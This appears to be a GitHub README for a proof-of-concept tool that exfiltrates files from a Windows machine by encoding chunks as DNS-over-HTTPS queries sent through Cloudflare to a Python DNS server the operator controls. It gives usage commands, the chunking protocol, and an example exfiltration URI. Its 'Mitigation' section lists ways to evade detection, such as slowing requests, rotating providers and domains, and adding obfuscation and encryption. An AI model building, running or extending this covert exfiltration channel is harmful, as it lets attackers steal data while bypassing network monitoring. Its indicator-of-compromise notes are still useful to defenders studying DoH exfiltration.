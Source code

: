 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```
# Architecture
Client (C#) - fetch.exe - ran on the Windows machine
1. Disassemble file for chunks
2. Create HTTPS requests with DNS query inside with chunks 

Server (Python) - dnspad.py  - ran on the Linux server machine (public IP + domain)
0. Stop services running on port 53 (internet access)
1. Run DNS server on port 53
2. While getting DNS queries assemble chunks into a file

Domain config in Azure example:

<img width="688" alt="image" src="https://github.com/user-attachments/assets/bf7dcc64-25a0-42ec-9be6-9142c2d64312">


# RFC limitations
* Label / subdomain:  `63` characters maximum
* Full Domain: `255` characters maximum
* Total URL: `2,000` characters maximum 

# My protocol design
My limits: `a.abcdefghi.com` which is `15` chars 

File integrity ? chunk identification number

2 bytes for ID, how many maximum ID's ?
255 * 255 = 65,025 

`possibleID` * `databytes` = maximum file size (in bytes)
`65,025` * `228` = 14,825,700 -> around 15MB

<42data>.<62data>.<62data>.<62data>.<2id>.a.chromalin.com

42 + 186 + 2 + 1 +  9 + 3 = 243

'.' also counting -> 7 above

Total: `250` where `228` is data 

simple test.xslx excel file: `8.27` KB -> 8270 / 228 = 36.3, meaning `37` requests

# IOC
A LOT of http/https traffic in small period of time: https://1.1.1.1/dns-query?name=google.com

Example http uri:
`https://1.1.1.1/dns-query?name=5353534141410D0A73757065725365637265743132.32330D0A31323865736764736739347766696F617373646773646766383932.317220736673616B6C3871723933333238666A61736C660D0A535353414141.0D0A402324255E262A28295F6B3B616C666D706F65662065770D0A53535341.0000.a.abcdefghi.com`


Mitigation: avoid generating a pattern
0. use randomized IP as a DNS response
1. limit the number 253
2. try prolong, 5 request in 5 hours
3. use different DoH services and methods (POST requests, not only GET)
4. use different domains for server

# Future development ideas
1. client: strings obfuscation
2. client: add more DoH services (google)
3. client: add POST functionality for Cloudflare (weird protocol )
4. client: stream cipher encryption
5. server: stream cipher encryption
6. protocol optimalization for more data in one query (short domain)
https://micro.domains/
7. add a filename to protocol (for example first bytes- would tell the filename length, then filename itself, then contents of data)
8. 
Having 5 letters domain ? How many maximum data ? `243` bytes in data (currently `228` )

for example: `0qf.in`

 ```
 54 chars + 63chars + 63chars + 63chars + 12 chars
```
 243  12 chars
<42data>.<63data>.<63data>.<63data>.<2id>.a.0qf.in

